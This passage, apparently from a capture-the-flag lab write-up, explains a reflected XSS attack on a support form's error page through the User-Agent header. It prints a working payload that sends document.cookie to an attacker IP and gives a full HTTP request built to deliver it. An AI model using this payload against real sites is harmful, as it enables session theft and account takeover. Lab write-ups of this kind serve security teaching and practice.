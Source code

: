 The inclusion of the cookie in various locations suggests that perhaps other cookies can be stolen.


# Stealing cookies via a Reflected XSS


## User-Agent as an injection point
The server is displaying an error page when a hacking attempt is detected, and this page includes the `User-Agent` string, along with other client request information. If this information is not sanitised before being included in the HTML of the error page, it could lead to an XSS vulnerability.
## The payload
The following payload uses an error-handling method to execute JavaScript.

`<img src=x onerror=fetch('http://IP/?c='+document.cookie);>`

- **`<img src=x>`**: This part attempts to load an image from a source that doesn’t exist (`x`), which will naturally cause an error.
- **`onerror=fetch(...)`**: The `onerror` attribute of the `<img>` tag fires when an error occurs (like failing to load the image). It triggers the fetch API call.
- **`fetch('http://IP/?c='+document.cookie)`**: This JavaScript fetches a URL, appending the document's cookies as a query parameter. 

 The `fetch` part is a classic technique for stealing cookies if the fetched domain is controlled by the attacker which, in this case, it is.

## Executing the attack
To execute the attack, Burpsuite can be used to repeat the POST method used to submit a form.

The payload is then placed in the `User-Agent` field. However, any of the fields that are rendered in the HTML of the error page could potentially work. For example, replacing the `Accept` value with the payload also worked in this instance. 

The `message` field of the form needs to include something that will trigger the error. This could be the reverse shell attempted earlier or a copy of the payload in the `User-Agent` field - it doesn't matter, as long as it triggers the error.

> *Including the cookie stealing payload in the `message` field is only to trigger the error; it does not actually execute from here because this field is not displayed back on the error page.*

```
POST /support HTTP/1.1
Host: 10.129.27.108:5000
Content-Length: 140
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.27.108:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: <img src=x onerror=fetch('http://10.10.14.6/?c='+document.cookie);>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.27.108:5000/support
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Connection: close

fname=emdeh&lname=emdeh&email=emdeh%40emdeh.com&phone=emdeh&message=abc; <img src=x onerror=fetch('http://10.10.14.6/?c='+document.cookie);>
```
